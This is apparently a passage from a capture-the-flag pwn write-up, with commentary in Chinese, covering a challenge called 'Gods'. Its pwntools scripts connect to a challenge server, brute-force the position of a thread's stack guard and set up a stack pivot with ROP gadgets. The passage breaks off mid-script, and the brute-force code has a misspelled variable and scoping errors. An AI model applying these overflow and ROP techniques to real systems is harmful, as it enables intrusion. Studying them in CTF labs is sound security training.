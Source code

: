 ```python
from pwn import *
p = remote('pwn.archive.xdsec.chall.frankli.site', 10018)
#p = process('./' + __file__[0:-3])
#p = remote('127.0.0.1', 2048)
context(arch='amd64', os='linux', log_level='debug')
elf = ELF(__file__[0:-3])

# gdb.attach(p)

payload = b''
payload += b'GET ./flag\r\n'
payload += b'User-Agent: MiniL\r\n\r\n'

p.sendline(payload)

p.interactive()
```

### Gods | Humoooor

线程栈溢出

`vuln`里面给了栈上任意地址写和`40`个字节溢出，先爆破出`stack_guard`的位置

```python
offset = 10
new_canary = "aaaaaaa"

def blast():
    while True:
        offset += 1
        p.close()
        p = process('./' + __file__[0:-3])

        p.recvuntil("Do you know who is the God of XDSEC? (*^_^*)\n")
        p.sendline("yes")

        rank_name(p, offset, new_cannry)
        rank_name(p, 2, "addd")

        gdb.attach(p, "thread 2\nb *0x40141D\nc")
    
        p.recvuntil("Finally, what's your name?\n")
        p.sendline((0x20 - 8) * "a" + 7 * "a")
        p.recvall()

        print(offset)
```

最后得出`offset = 272`，后面就是栈迁移+ROP

```python
from pwn import *
p = remote('pwn.archive.xdsec.chall.frankli.site', 10100)
# p = process('./' + __file__[0:-3])
context(arch='amd64', os='linux', log_level='debug')
elf = ELF(__file__[0:-3])
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc-2.31.so")

new_cannry = "aaaaaaa"
offset = 272
plt_puts = elf.plt["puts"]
got_puts = elf.got["puts"]
pop_rdi = 0x00000000004015d3
pop_rsi_r15 = 0x00000000004015d1
```